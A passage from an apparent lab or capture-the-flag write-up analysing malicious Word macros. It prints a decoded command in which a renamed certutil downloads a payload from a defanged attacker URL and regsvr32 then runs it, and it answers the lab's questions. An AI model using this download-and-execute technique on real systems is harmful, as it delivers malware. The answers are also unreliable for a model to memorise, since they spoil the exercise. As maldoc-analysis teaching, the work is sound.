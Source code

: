 The decoded command is:

```cmd
cmd /c "set u=url&&call C:\ProgramData\1.exe /%u%^c^a^c^h^e^ /f^ hxxp://8cfayv.com/bolb/jaent.php?l=liut6.cab C:\ProgramData\1.tmp && call regsvr32 C:\ProgramData\1.tmp"
```

After cleaning it up:

```cmd
cmd /c C:\ProgramData\1.exe /urlcache /f hxxp://8cfayv.com/bolb/jaent.php?l=liut6.cab C:\ProgramData\1.tmp && call regsvr32 C:\ProgramData\1.tmp
```

**Explanation:**  
- The macro calls `cmd.exe` to execute the copied `certutil.exe` (`C:\ProgramData\1.exe`) with the `/urlcache /f` flags. This makes `certutil` download a file from the attacker-controlled domain and save it as `C:\ProgramData\1.tmp`.
- The downloaded file is then executed using `regsvr32`, another legitimate Windows utility commonly abused by malware.

---

#### **Observations**  
- **Q1:** Provide the executable name being downloaded: `1.tmp`.  
- **Q2:** What program is used to run the executable? `regsvr32`.  
- **Q3:** Provide the malicious URI included in the maldoc that was used to download the binary: `hxxp://8cfayv.com/bolb/jaent.php?l=liut6.cab`.  
- **Q4:** What folder does the binary get dropped in? `C:\ProgramData`.  
- **Q5:** Which stream executes the binary that was downloaded? `Stream A3`.



---

### **Attacker 4**  

#### **Identifying Macros**  
Following the patterns observed in previous attackers, we begin by confirming the presence of malicious VBA macros in `attacker4.doc` using `oleid`:

```bash
parrot@parrot:~$ oleid attacker4.doc 
...snip...
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
...snip...
```

Using `oledump.py`, we identify the streams containing macros (marked with "M"):

```bash
parrot@parrot:~$ oledump.py attacker4.doc 
...snip...
  6:        41 'Macros/PROJECTwm'
  7: M   17216 'Macros/VBA/ThisDocument'
  8:     10917 'Macros/VBA/_VBA_PROJECT'
...snip...
```
